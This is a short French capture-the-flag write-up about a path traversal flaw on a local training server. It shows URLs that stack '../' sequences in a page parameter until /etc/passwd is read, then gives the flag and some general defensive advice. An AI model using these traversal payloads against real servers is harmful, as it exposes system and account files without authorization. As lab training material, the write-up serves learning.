 # Path traversal

## Trouver la faille :

En allant sur l'URL `http://192.168.86.43/index.php?page=../` on obtiens le message `Wtf ?`

En allant sur l'URL `http://192.168.86.43/index.php?page=../../` on obtiens le message `Wrong..`

En allant sur l'URL `http://192.168.86.43/index.php?page=../../../` on obtiens le message `Nope..`

En allant sur l'URL `http://192.168.86.43/index.php?page=../../../../` on obtiens le message `Almost.`

En allant sur l'URL `http://192.168.86.43/index.php?page=../../../../../` on obtiens le message `Still nope..`

En allant sur l'URL `http://192.168.86.43/index.php?page=../../../../../../` on obtiens le message `Nope..`

En allant sur l'URL `http://192.168.86.43/index.php?page=../../../../../../../` et au delà (rajouter toujours plus de `../`) on obtiens le message `You can DO it !!! :]`

Il y a clairement un truc à creuser !

On se doute qu'on va pouvoir aller taper dans des dossiers et fichiers qui nous intéressent. En l'occurrence, on aimerait bien récupérer la liste des users et des passwords, sur un Linux on sait qu'on a un fichier `/etc/passwd` qui pourrait convenir. 
On tente donc de remonter les dossiers en tapant sur `/etc/passwd`. 

On arrive sur `http://192.168.86.43/?page=../../../../../../../etc/passwd` et bingo ! !

The flag is : `b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0`

## S'en prémunir :

Sur un site internet, on a souvent envie de bloquer l'utilisation de certaines pages aux clients comme la page admin par exemple. Dans le cas d'une attaque `Path Traversal` le hacker souhaite surtout accéder au filesystem du serveur pour y récupérer des fichiers.

Plusieurs solutions pour s'en prémunir:

**1 - .htaccess**

Afin d'empêcher que n'importe qui accède à des pages on peut très facilement créer une protection par login/mot de passe qui empêche l'accès à tous les fichiers du dossier.

C'est le fichier .htaccess qui permet de dire au serveur qui a le droit d'y accéder ou non.

**2 - Vérifier le role de l'utilisateur**

En effet, au travers des roles définis, des tokens ou des sessions il est facile d'identifier si un utilisateur a accès ou non à une page.

**3 - Toujours parser les données**

Il est très important de toujours parser les données reçues afin de limiter certains caracteres. De maniere générale, il est impératif de vérifier ce que l'utilisateur nous envoie et de réécrire ces données en les sécurisants.